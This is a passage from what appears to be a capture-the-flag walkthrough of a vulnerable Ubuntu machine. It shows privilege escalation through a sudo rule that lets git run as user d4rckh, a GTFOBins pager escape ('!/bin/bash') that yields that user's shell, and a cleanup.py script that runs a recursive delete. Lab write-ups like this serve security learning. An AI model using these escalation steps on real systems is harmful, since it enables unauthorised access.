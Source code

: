```highlight
Now you can use git. Took a while to fix it but now its good :)

~D4rckh
$ 
```

Now has user thirtytwo I navigate to the home directory and find a note from D4rckh. So again I checked 'sudo -l'.

```highlight
$ sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
$ 
```

Following the same processes before, I checked GTFO bins and found a a priv esc path using git. 

```highlight
$ sudo -u d4rckh /usr/bin/git -p help config
GIT-CONFIG(1)                     Git Manual                     GIT-CONFIG(1)

NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
       git config [<file-option>] [type] [-z|--null] --get name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-all name [value_regex]
       git config [<file-option>] [type] [-z|--null] [--name-only] --get-regexp name_regex [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-urlmatch name URL
       git config [<file-option>] --unset name [value_regex]
       git config [<file-option>] --unset-all name [value_regex]
       git config [<file-option>] --rename-section old_name new_name
       git config [<file-option>] --remove-section name
       git config [<file-option>] [-z|--null] [--name-only] -l | --list
       git config [<file-option>] --get-color name [default]
       git config [<file-option>] --get-colorbool name [stdout-is-tty]
       git config [<file-option>] -e | --edit
!/bin/bash
d4rckh@ubuntu-xenial:~$ 
```

Now I'm the user d4rckh I can go back to the users home directory and look at the cleanup.up script.

```highlight
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /home/cleanup/* ')
except:
        sys.exit()
```

